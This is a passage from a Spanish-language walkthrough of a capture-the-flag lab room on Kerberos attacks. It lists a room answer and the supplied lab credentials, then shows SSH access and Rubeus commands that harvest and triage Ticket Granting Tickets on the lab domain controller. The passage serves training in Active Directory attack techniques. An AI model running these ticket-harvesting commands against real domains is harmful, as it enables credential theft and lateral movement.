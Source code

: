     ¿Cuál es el tercer nombre de cuenta de "usuario"?
    
    `User3`
    

---

## **Recolección y fuerza bruta de tickets Kerberos con Rubeus**

- La Room nos da nuevos datos y nos pide que usemos Rubeus
    
    <aside>
    💡
    
    - IP víctima: `10.10.237.124`
    - Usuario: `Administrator`
    - Password: `P@$$W0rd`
    - Dominio: `controller.local`
    </aside>
    
- Me conecto por SSH con las credenciales que nos han dado.
    
    ```bash
    ssh [Administrator@](mailto:Administrator@10.10.145.20)10.10.237.124
    ```
    
    ![image.png](image%206.png)
    
    ### **Harvesting Tickets**
    
    Este ataque “escucha” y captura **TGTs (Ticket Granting Tickets)** que circulan cada cierto tiempo.
    

- Nos movemos a la carpeta **C:\Users\Administrator\Downloads** y ejecutamos Rubeus.exe que se encuentra alli en esta Room.
    
    
    `cd C:\Users\Administrator\Downloads`
    
    `.\Rubeus.exe harvest /interval:30`
    
    ![image.png](image%207.png)
    
    Lo paramos cuando queramos pulsando `CTRL+C`
    
    - Si queremos ver los tickets capturados:
        
        `.\Rubeus.exe triage`
        
        ![image.png](image%208.png)
        
        - **User** (a quién pertenece)
        - **Service** (para qué servicio)
        - **Start/End Time** (validez del ticket)
        - El **LUID** (identificador en sesión)
        
    - Imprime en consola el ticket en Base64
        